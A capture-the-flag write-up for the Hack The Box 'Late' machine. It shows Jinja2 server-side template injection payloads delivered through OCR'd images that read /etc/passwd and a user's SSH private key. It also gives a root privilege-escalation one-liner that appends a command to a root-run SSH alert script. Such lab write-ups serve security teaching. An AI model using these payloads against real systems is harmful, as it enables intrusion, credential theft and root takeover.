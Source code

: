 <h1> Late Hackthebox Writeup </h1>

# NMAP SCANNING
## Basic Scan
```
┌──(x4k5h4yx💀Kali)-[~]
└─$   
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
# Found the domain listed on website - images.late.htb 
## Added to host file.
### Visiting the site images.late.htb
![image](https://user-images.githubusercontent.com/68991993/172343037-cb07afab-c037-4bfe-981e-f7784d108574.png)
</br> This Flask application processes the text in the image and returns it inside an HTML paragraph. If you have some programming knowledge of Python (Django & Flask), then you will know that we can have Python syntax within HTML, using the double-curly braces. This is similar to JSX in React, where you can use JavaScript inside HTML with single curly braces.
# Testing for SSTI .
### Note : Make sure to try different fonts and different sizes so that the server can read the text on the image clearly.
### REF: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
</br>  There are a few SSTI examples for Mako, Jinja2 & Tornado (these are templating engines used in Python applications). We should know, that jinja2 is the most common templating engine used in Flask applications. This is why I will try to use tricks for arbitrary command execution in the jinja2 templating engine.
</br>  To test SSTI , we need to write SSTI payload which is {{7*7}} in any text editor (whatever you want to use). You can use sublime text and screenshot like below . 
</br> ![image](https://user-images.githubusercontent.com/68991993/172345295-498fa289-5d7f-4bb1-9c5b-e30532023a8d.png)
</br> The website processes the picture and returns a results.txt file with the below output:
</br> ![image](https://user-images.githubusercontent.com/68991993/172345457-9c8f3dac-54be-41ac-87df-0a5e743285df.png)
</br> This vulnerability is called SSTI(Server-side Template Injection). A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
# Exploiting SSTI.
To get /etc/passwd use this payload.
```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
From the result.txt file we can see different users. I tried for different users and finally settled with svc_acc to get the ssh id_rsa file .
```
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```
The id_rsa file is downloaded.
# Attempting to connect ssh 
## Permissions to id_rsa
```
chmod 600 id_rsa
```
# Successfully Connected
```

┌──(x4k5h4yx💀Kali)-[~]
└─$ ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ hostname
late
svc_acc@late:~$ whoami
svc_acc

```
# User Flag
### 
```
┌──(x4k5h4yx💀Kali)-[~]
└─$  ssh -i id_rsa svc_acc@late.htb
svc_acc@late:~$ ls
app pspy64 user.txt
svc_acc@late:~$ cat user.txt
```
## Linpeas
![image](https://user-images.githubusercontent.com/68991993/172349141-24b6a920-98c1-44f5-8a71-e79d1d32556f.png)

```
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
#!/bin/bash
RECIPIENT=”root@late.htb”
SUBJECT=”Email from Server Login: SSH Alert”
BODY=”
A SSH login was detected.
User: $PAM_USER
 User IP Host: $PAM_RHOST
 Service: $PAM_SERVICE
 TTY: $PAM_TTY
 Date: `date`
 Server: `uname -a`
“
if [ ${PAM_TYPE} = “open_session” ]; then
 echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
fi
```
If you login with ssh , this script will be execute as root .

# Root
```
echo 'cat /root/root.txt > /tmp/root.txt' >> /usr/local/sbin/ssh-alert.sh;ssh localhost "e
xit"; cat /tmp/root.txt
```
![image](https://user-images.githubusercontent.com/68991993/172349988-2a36dc05-47dd-4437-8a0d-c740ae337341.png)

</br>

Thank YOU <3

